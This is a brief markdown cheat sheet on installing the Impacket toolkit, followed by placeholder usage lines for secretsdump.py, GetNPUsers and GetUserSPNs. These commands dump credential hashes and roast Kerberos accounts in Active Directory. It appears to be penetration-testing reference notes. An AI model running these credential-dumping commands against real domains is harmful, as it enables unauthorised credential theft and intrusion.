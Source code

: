 # Impacket

### Installing Impacket into /opt/impacket

```
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
```

### Install pip3 for Python.
```
sudo apt install python3-pip
```

### Install Python requirements for Impacket.
```
pip3 install -r /opt/impacket/requirements.txt
```

### Run the Python install script.
```
cd /opt/impacket/ && python3 ./setup.py install
```

### Basic secretsdump.py usage.
```
secretsdump.py <Target Username>@<Domain or IP>
```

### Basic GetNPUser usage.
```
impacket-GetNPUsers <Domain>/<Target Username> -no-pass
```

### This will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain. 
```
GetUserSPNs.py <DomainName>.local/<UserName>:<Password> -dc-ip <IP> -request
```


